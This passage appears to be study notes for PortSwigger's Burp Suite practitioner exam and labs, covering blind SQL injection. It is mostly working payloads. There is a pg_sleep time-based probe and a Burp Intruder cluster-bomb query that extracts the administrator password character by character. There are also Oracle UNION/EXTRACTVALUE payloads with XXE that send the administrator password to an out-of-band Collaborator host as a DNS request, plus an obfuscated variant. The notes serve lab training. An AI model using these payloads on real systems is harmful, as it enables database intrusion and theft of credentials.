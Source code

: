 ```SQL
%3BSELECT+pg_sleep(7)--
```

> With a Intruder CLUSTER bomb attack the password can be extracted in one single attack with two payload positions in the below payload.

```SQL
;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END+FROM+users--
```

> Stage 3 of the Burp Practice exam admin portal require exploitation of an [insecure deserialization](broken-reference) cookie value.

#### Blind SQLi

> Target is vulnerable to Out of band data exfiltration using Blind SQL exploitation query. In this case the trackingID cookie. Below is combination of SQL injection and XXE payload to exploit the vulnerability and send administrator password as DNS request to the collaborator service.

```sql
TrackingId=xxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.COLLABORATOR.NET/">+%25remote%3b]>'),'/l')+FROM+dual--
```

[PortSwigger Lab: Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

> The SQL payload above can also be used to extract the Administrator password for the this [PortSwigger Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors) challenge.

#### Blind SQLi no indication

> Placing a single quote at end of the `trackingid` cookie or search parameter `/search_advanced?searchTerm='` may give response `500 Internal Server Error`. Make an educated guess, by using below blind SQLi payload and combine with basic XXE technique, this then makes a call to collaboration server but no data is ex-filtrated.

```sql
TrackingId=xxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//COLLABORATOR.NET/">+%25remote%3b]>'),'/l')+FROM+dual--
```

> Additional SQLi payload with XML for reference with `||` the SQL concatenation operator to concatenate two expressions that evaluate two character data types or to numeric data type and do some obfuscating.

```
'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % fuzz SYSTEM "http://Collaborat'||'OR.COM/">%fuzz;]>'),'/l') from dual)||'
```

[OAST - Out-of-band Application Security Testing](https://portswigger.net/burp/application-security-testing/oast)
